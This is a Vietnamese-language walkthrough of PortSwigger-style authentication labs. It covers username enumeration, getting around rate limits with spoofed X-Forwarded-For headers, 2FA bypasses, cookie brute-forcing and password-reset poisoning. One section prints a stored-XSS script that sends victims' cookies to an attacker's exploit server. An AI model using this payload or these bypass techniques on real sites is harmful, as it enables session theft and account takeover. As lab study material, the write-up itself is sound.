



# Authentication lab

## Lab: Username enumeration via different responses

- Ở bài lab 1 này họ cho mình 2 danh sách mật khẩu và tài khoản cần brute-force. Em đã nhập thử tài khoản và mật khẩu sai trước. Hệ thống có thông báo tài khoản không tồn tại. 


- Vậy thì để tiết kiệm thời gian brute-force các cặp tài khoản mật khẩu em sẽ check tài khoản trước.


- Có mỗi một tài khoản `asia` có length khác so với các tài khoản còn lại và có response `Incorrect password`. Sửa tên thành `asia` và brute nốt mật khẩu.


- Mật khẩu có length khác hẳn so với đống còn lại `amanda`.


## Lab: Username enumeration via subtly different responses

- Bài này em cũng thử nhập bừa cả username và password để xem và có nhận được thông báo sai tài khoản hoặc mật khẩu


- Vậy nên em sẽ sử dụng tính năng `cluster bomb` để brute cặp user-pass.


- Sau gần 10000 payload thì em đã tìm được tài khoản là `azureuser` và mật khẩu `mustang`

## Lab: Username enumeration via response timing

- Bài này em vẫn sẽ thử nhập tài khoản và mật khẩu để thử xem response như thế nào


- Em thử đăng nhập đúng và sai thì nhận ra nếu mật khẩu dài thì nó sẽ kiểm tra rất lâu. Tức thời gian phản hồi sẽ phụ thuộc vào độ dài mật khẩu (nếu tài khoản đúng).

- Từ đây em sẽ brute force với mật khẩu dài và tên tài khoản. 

- Bài này họ giới hạn request nên em sử dụng thêm header `X-Forwarded-For` khác nhau với từng request.


- Em tìm được tài khoản `alabama` có time response khác với các tài khoản khác và lâu hơn.


- Giờ chỉ cần brute mật khẩu nữa là xong. Em tìm được mật khẩu với status 302 là `yankees`.


## Lab: Broken brute-force protection, IP block

- Kiểm tra đầu vào của trang web. Em thấy nếu ta nhập sai mật khẩu quá 3 lần thì sẽ bị block tầm 1 phút. Vì vậy em đã thêm user `wiener` xen lẫn với `carlos` và password `peter` xen lẫn với các mật khẩu cần brute.


- Ở đây em có viết 2 đoạn script để gen lại username và password


- Sau đó em cần chỉnh lại resource pool để chỉ gửi 1 request lên server 1 lần tránh bị block.


- Trong đống status 302 login thành công em tìm được mật khẩu của `carlos`


## Lab: Username enumeration via account lock

- Bài này họ có đề cập đến việc nếu tài khoản tồn tại mà đăng nhập nhiều thì nó sẽ bị lock tài khoản. Vậy nên đầu tiên em sẽ thử tất cả tài khoản mật khẩu có trong danh sách để tìm tài khoản khác biệt.


- Ở đây có tài khoản `amarillo` bị thông báo đăng nhập quá nhiều bị khóa 1 phút. Giờ em sẽ brute mật khẩu của tài khoản này.


- Có một mật khẩu không hiện bất kì thông báo gì cả. Em nghĩ do tài khoản bị khóa nên nó không đăng nhập được nên không thông báo. Đợi 1 phút sau đăng nhập và đã thành công.

## Lab: Broken brute-force protection, multiple credentials per request

- Bài này họ có hướng dẫn mình phải tìm cách để kiểm tra nhiều mật khẩu cùng một lúc. Cấu trúc request của login cũng khác đi. Nó có dạng như JSON 



- Vậy em sẽ sửa password thành một mảng để check 1 lần.


- Request như này sẽ login được tuy nhiên mình sẽ không biết mật khẩu cái nào là chính xác. Do đó em sẽ cop luôn link của request để login và thành công bypass.

## Lab: 2FA simple bypass

- Bài này em nghĩ mình cần bypass qua hệ thống check security code của trang web. Em vẫn sẽ đăng nhập vào trang chính của người dùng họ cho mình.


- Mình chỉ có được email của người dùng họ cho sẵn thế nên là em nghĩ mình chỉ cần đăng nhập qua được `login` còn `login2` mình sẽ bypass. 


- Đến đường dẫn `login2` của tài khoản `carlos` em sẽ sửa thành `my-account` hoặc `my-account/change-email/` cho giống của tài khoản `wiener` và em đã thành công bypass.


## Lab: 2FA broken logic

- Bài lab này bị lỗi xử lý logic ở phần cookie, tức là không chỉ có `session` mà còn có cả tham số `vetify` để xác nhận xem người dùng đang được kiểm tra là ai. Từ đây em có thể bypass để đăng nhập vào tài khoản người khác từ một tài khoản có sẵn.

- Đầu tiên em vẫn sẽ đăng nhập và xác thực bằng tài khoản `wiener`. 


- Lấy mã xác thực ở email của `wiener`


- Em nhận thấy đối với request `GET` ở phần `/login2`. Mỗi lần gửi đi thì hệ thống OTP sẽ gen ra một mã mới để xác thực cho người dùng ở phần `verify`. Vậy em đã lấy request với phần `verify` được sửa thành `carlos` rồi gửi lại lên server để họ gen 1 mã xác thực OTP.


- Khi đã xác định được đã có 1 mã OTP được gửi đến tài khoản của `carlos`. Em sẽ tiến hành brute force lấy mã để đăng nhập. (Note: Ở đây lúc đầu em không làm được vì đã gửi request `POST` lên server để gen mã nhưng muốn gen mã thì phải tạo một request `GET`).


- Em có viết thêm 1 đoạn mã python để gen mã OTP.


- Sau khi brute-force em đã thấy có một mã trả về response 302. Copy và chọn `show response in browser` và em đã thành công bypass.


## Lab: 2FA bypass using a brute-force attack

- Ở lab này sau khi test các chức năng cơ bản em thấy được họ có một hệ thống bảo mật khá là an toàn với việc khi người dùng nhập sai mã OTP 2 lần thì sẽ tự động out ra.
- Cùng với việc đó là việc thay đổi mã crsf khiến ta khó có thể brute force như thông thường.
- Vậy ở đây em sẽ thiết lập một cái rule session để trước mỗi lần em thử brute mật khẩu em sẽ tự động login lại.


- Sau đó em set lại số lần gửi request lên server là 1 để tránh bị deny request.


- Sau một vài lần chạy brute-force mã OTP thì em đã thì được mã chính xác (Vì họ reset 30p một lần mã thì phải ạ)



## Lab: Brute-forcing a stay-logged-in cookie

- Ở bài lab này sau khi test qua các chức năng cơ bản của nó em thấy được nó có thêm 1 chức năng để duy trì phiên đăng nhập của người dùng đó chính là `Remember me`.
- Sau khi chọn phần này và đăng nhập đúng. Ta sẽ được trả về một token để bỏ qua bước đăng nhập của người dùng sau này. 
- Thử đi giải mã phần token thì em thấy đầu tiên nó được mã hóa `base64` toàn bộ. Bên trong nó thì có dạng: (tên người dùng + ':' + md5sum(password)).
- Vậy em nghĩ mình sẽ brute-force phần password ở phần `GET /my-account` để log thẳng vào tài khoản của `carlos`.


- Em đã tìm được response trả về length khác với các req khác.

## Lab: Offline password cracking

- Ở bài lab này em cần lấy được cookie của người dùng `carlos` bằng phương pháp `XSS`. Đầu tiên em vẫn sẽ phải đăng nhập bằng tài khoản của `wiener`. Kiểm tra cấu trúc `remember me` nó có trả về token chứa mật khẩu đã được mã hóa có dạng: (tên người dùng + ':' + md5sum(password)).
- Nhờ việc tạo blog và comment vào chính trang blog đó em đã tạo một Stored-XSS. 

```js
<script> document.location='https://exploit-0a8e005f045087fb82d605a1017800d7.exploit-server.net/'+document.cookie</script>
```

- Mục tiêu của em là lấy được cookie của người dùng `carlos` khi họ đọc bài blog có comment chứa mã độc của em và cookie của họ sẽ được gửi về `exploit server` của em.


- Từ `stay-logged-in` và dạng mã hóa token em đã giải mã được mật khẩu của `carlos` chính là: `onceuponatime`.

## Lab: Password reset broken logic

- Bài này sau khi lấy được req của lần reset password tài khoản `wiener`. Em thấy nó có phần hidden input để điền thông tin reset. 


- Em sẽ sửa lại username là `carlos` và mật khẩu mới cho tài khoản này.

## Lab: Password reset poisoning via middleware

- Bài này em sẽ sử dụng req forgot-password của người dùng `wiener` tuy nhiên em sẽ dùng thêm `X-Forwarded-Host` để chuyển các req thay đổi pass của người dùng khác về chung 1 email nhằm lấy token. 


- Ở server em sẽ lấy ra `access log` của `carlos` sau khi đã gửi req forgot-password và thay đổi token lúc yêu cầu nhập mật khẩu mới của `wiener` từ đường dẫn của email.


- Từ đó hệ thống sẽ hiểu ta đang thay đổi mật khẩu cho người dùng `carlos` có token ta đã tạo và lấy được từ trước.

## Lab: Password brute-force via password change

- Ở bài lab này em được hướng dẫn sẽ phải tấn công vào phần kiểm tra mật khẩu lúc thay đổi mật khẩu của một tài khoản bất kì.

- Khi đăng nhập vào tài khoản của `wiener`. Em thử thay đổi mật khẩu. Nếu thay đổi như thông thường thì sẽ không có gì xảy ra.


- Nếu thử điền sai mật khẩu và phần confirm mật khẩu trong khi mật khẩu hiện tại cũng sai thì


- Nếu điền mật khẩu hiện tại đúng trong khi 2 phần confirm mật khẩu khác nhau ta sẽ nhận được



- Từ đây em có thể khai thác dựa vào lỗi thông báo `New passwords do not match` vì nó cũng đã tự kiểm tra mật khẩu đầu vào giúp mình xem chính xác hay không


- Em sẽ brute-force mật khẩu xem cái nào đúng sẽ hiện ra thông báo `New passwords do not match` và chỉ có 1 res thỏa mãn.


